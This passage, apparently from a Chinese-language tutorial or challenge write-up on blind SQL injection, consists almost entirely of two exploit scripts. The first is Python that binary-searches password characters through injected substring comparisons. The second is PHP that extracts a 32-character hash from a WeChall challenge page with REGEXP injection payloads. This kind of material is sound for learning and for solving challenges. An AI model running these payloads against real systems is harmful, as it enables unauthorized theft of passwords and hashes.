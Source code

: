```
    t=15
    while (s<t):
        if (t-s==1):
            if doinject('\' or substring(password,'+str(i)+',1)=\''+wordlist[t]+'\' -- '):
                m=t
                break
            else:
                m=s
                break
        m=(s+t)/2
        if doinject('\' or substring(password,'+str(i)+',1)>\''+wordlist[m]+'\' -- '):
            s=m+1
            print wordlist[s]+":"+wordlist[t]
        else:
            t=m
            print wordlist[s]+":"+wordlist[t]
    res = res+wordlist[m]
    print res

```

使用正则表达式的盲注

```
$sUrl = 'http://www.wechall.net/challenge/blind_light/index.php';
$sPost = 'inject=Inject&injection=';
$sCharset = 'ABCDEF0123456789';

/* for every character */
for ($i=0, $hash=''; $i<32; ++$i) {
        $ch = $sCharset;

        do {
                $ch1 = substr($ch, 0, intval(strlen($ch)/2));
                $ch2 = substr($ch, intval(strlen($ch)/2));

                $p = $sPost.'absolutelyimpossible\' OR 1=(SELECT 1 FROM blight WHERE password REGEXP \'^'.$hash.'['.$ch1.']\' AND sessid=xxx) AND \'1\'=\'1';
                $res = libHTTP::POST($sUrl, $p);

                if (strpos($res['content'], 'Your password is wrong') === false)
                        $ch = $ch1;
                else 
                        $ch = $ch2;

        } while (strlen($ch) > 1);

        $hash .= $ch;
        echo "\rhash: ".$hash;
}

```
